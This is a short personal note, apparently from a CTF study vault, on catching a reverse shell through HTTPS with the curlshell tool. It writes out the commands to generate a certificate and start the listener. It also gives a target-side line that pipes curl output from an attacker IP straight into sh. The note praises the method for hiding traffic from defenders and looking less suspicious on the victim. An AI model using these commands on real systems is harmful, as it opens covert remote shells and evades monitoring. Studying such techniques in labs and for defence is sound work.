 
2025-10-24 19:01

Source: #CTF 

Tags: [[revshell]]

Different way of catching reverse connection from your target. This is using curl shell which leverages HTTPS to tunnel the connection to your machine. 

[[netcat]] may not be installed or other traditional tools. Sometimes even the shell is different and you cannot just manipulate the device networking stack easily. If curl is installed, then you still have a chance to get a reverse connection.
### Setting up the shell

**On our system**

1. Clone this [repo](https://github.com/SkyperTHC/curlshell)

2. Since the connection will be encrypted, we need to generate a self-signed certificate. 
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

3. We can now run curl shell. 
```sh
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
We pass the certificate, the private key, and the port we want to listen on. 

**Then from the target**

we use curl to connect to our attacker IP and port.
```sh
curl -skfl https://172.16.117.99:8080 | sh
```
Don't forget about the HTTPS at the beginning. Lastly, we need to pipe this to a shell. 

Then you should see a successful call back from the attacker.
Another benefit of using curl shell is that your connections are encrypted. That means you can protect yourself from defenders. Aside from that, the process running inside the victim will look less suspicious compared to normal reverse shells.



### References
[Hiding your callback through HTTPS](https://www.youtube.com/watch?v=DBy2e6HrrD0)